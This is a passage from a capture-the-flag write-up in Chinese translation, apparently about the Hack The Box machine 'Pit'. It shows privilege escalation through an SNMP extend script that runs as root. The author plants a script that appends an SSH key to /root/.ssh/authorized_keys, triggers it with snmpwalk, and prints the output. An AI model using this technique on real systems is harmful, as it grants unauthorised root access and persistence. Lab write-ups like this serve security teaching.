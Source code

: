     [michelle@pit monitoring]$ echo 'ping -c 1 10.10.14.7' > check_0xdf.sh
    [michelle@pit monitoring]$ cat check_0xdf.sh
    ping -c 1 10.10.14.7
    

该脚本以米歇尔的身份工作正常：

    [michelle@pit monitoring]$ bash check_0xdf.sh
    PING 10.10.14.7 (10.10.14.7) 56(84) bytes of data.
    64 bytes from 10.10.14.7: icmp_seq=1 ttl=63 time=92.3 ms
    
    --- 10.10.14.7 ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 92.259/92.259/92.259/0.000 ms
    

现在，我将通过 SNMP 触发它（我可以只触发监视脚本的 MIB，这样它就不需要几分钟就能运行）：

    oxdf@parrot$ snmpwalk -v1 -c public 10.10.10.241 NET-SNMP-EXTEND-MIB::nsExtendObjects
    NET-SNMP-EXTEND-MIB::nsExtendNumEntries.0 = INTEGER: 1             
    NET-SNMP-EXTEND-MIB::nsExtendCommand."monitoring" = STRING: /usr/bin/monitor
    NET-SNMP-EXTEND-MIB::nsExtendArgs."monitoring" = STRING:
    NET-SNMP-EXTEND-MIB::nsExtendInput."monitoring" = STRING:
    NET-SNMP-EXTEND-MIB::nsExtendCacheTime."monitoring" = INTEGER: 5
    NET-SNMP-EXTEND-MIB::nsExtendExecType."monitoring" = INTEGER: exec(1)
    NET-SNMP-EXTEND-MIB::nsExtendRunType."monitoring" = INTEGER: run-on-read(1)
    NET-SNMP-EXTEND-MIB::nsExtendStorage."monitoring" = INTEGER: permanent(4)
    NET-SNMP-EXTEND-MIB::nsExtendStatus."monitoring" = INTEGER: active(1)
    NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."monitoring" = STRING: ping: cap_set_proc: Permission denied                                                    
    NET-SNMP-EXTEND-MIB::nsExtendOutputFull."monitoring" = STRING: ping: cap_set_proc: Permission denied                                                     
    Memory usage
                  total        used        free      shared  buff/cache   available
    Mem:          3.8Gi       439Mi       3.0Gi       8.0Mi       393Mi       3.2Gi
    Swap:         1.9Gi          0B       1.9Gi
    ...[snip]...
    

有某种权限被拒绝（最后两行以 开头），这很奇怪，但感觉像SELinux。它确实显示它尝试运行脚本。`ping``NET-SNMP`

### 壳

我将尝试一个脚本，该脚本将SSH密钥写入根的文件：`authorized_keys`

    [michelle@pit monitoring]$ echo 'echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" | tee /root/.ssh/authorized_keys && echo "it worked!"' > check_0xdf.sh
    

我使用和附加，以便输出将在SNMP输出中可见，以查看它是否有效。`tee``echo`

触发该操作时，输出看起来不错：

    oxdf@parrot$ snmpwalk -v1 -c public 10.10.10.241 NET-SNMP-EXTEND-MIB::nsExtendObjects
    NET-SNMP-EXTEND-MIB::nsExtendNumEntries.0 = INTEGER: 1
    NET-SNMP-EXTEND-MIB::nsExtendCommand."monitoring" = STRING: /usr/bin/monitor   
    NET-SNMP-EXTEND-MIB::nsExtendArgs."monitoring" = STRING:           
    NET-SNMP-EXTEND-MIB::nsExtendInput."monitoring" = STRING:      
    NET-SNMP-EXTEND-MIB::nsExtendCacheTime."monitoring" = INTEGER: 5
    NET-SNMP-EXTEND-MIB::nsExtendExecType."monitoring" = INTEGER: exec(1)
    NET-SNMP-EXTEND-MIB::nsExtendRunType."monitoring" = INTEGER: run-on-read(1)
    NET-SNMP-EXTEND-MIB::nsExtendStorage."monitoring" = INTEGER: permanent(4)
    NET-SNMP-EXTEND-MIB::nsExtendStatus."monitoring" = INTEGER: active(1)
    NET-SNMP-EXTEND-MIB::nsExtendOutput1Line."monitoring" = STRING: ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing
    NET-SNMP-EXTEND-MIB::nsExtendOutputFull."monitoring" = STRING: ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing
    it worked!
    Memory usage